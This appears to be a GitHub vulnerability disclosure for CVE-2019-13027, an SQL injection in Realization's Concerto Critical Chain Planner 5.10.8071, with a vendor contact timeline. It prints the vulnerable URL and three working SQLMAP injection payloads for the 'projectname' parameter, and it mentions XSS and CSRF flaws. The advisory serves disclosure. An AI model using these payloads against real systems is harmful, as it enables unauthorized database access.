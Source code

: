 # CVE-2019-13027
Details for disclosing CVE-2019-13027

Vendor contact timeline:
1st July 2019 -> No response, no email back.

4th July 2019 -> No response, no email back.

8th July 2019 -> Email sent, Github created.

11 July 2019 -> No Vendor response. Vuln disclosed.


> [Vulnerability Type]
> SQL Injection
> [Affected Product Code Base]
> CONCERTO CRITICAL CHAIN PLANNER (CCPM) - Version: 5.10.8071 (Other versions on 5.x branch are probably affected. Cannot test with >other branchs)
> ------------------------------------------
> 
> [Affected Component]
> Realization Concerto Critical Chain Planner (aka CCPM) 5.10.8071 has some critical security Issues, being
> SQL Injection in at least in  taskupdt/taskdetails.aspx webpage via the "projectname" parameter
> 
> ------------------------------------------
> 
> [Attack Type]
> Remote
> 
> 
> [Attack Vectors]
> Application has a lot of reflected XSS/CSRF (for example, in checklist/checklist) , but the tricky part is the SQL Injections. Some tampering is needed depending on SQL Server versión and/or IDS/IPS. 
>
> 
>URL:
> https:/concertoURL/taskupdt/taskdetails.aspx?projectname=foo&taskID=1&uniqueTaskID=2&taskuniqueid=2&reportname=&securitycode=undefined&bIsSubTask=undefined
> 
> ProjectName (foo) must exist and be valid. Fuzz the rest of parameters (or use a real request).
>foo has also an XSS 
>
>Detected SQL (payloads From SQLMAP)
> Parameter: projectname (GET)
>   
> 
>     Type: stacked queries
>     Title: Microsoft SQL Server/Sybase stacked queries (comment)
>     Payload: projectname=foo';WAITFOR DELAY '0:0:5'--
> 
>     Type: boolean-based blind
>     Title: AND boolean-based blind - WHERE or HAVING clause
>     Payload: projectname=foo' AND 3676=3676-- 
>
>     Type: time-based blind
>     Title: Microsoft SQL Server/Sybase time-based blind (IF)
>     Payload: projectname=foo' WAITFOR DELAY '0:0:5'-- 
> 
>
> 
> 
> [Vendor of Product]
> REALIZATION - https://www.realization.com/
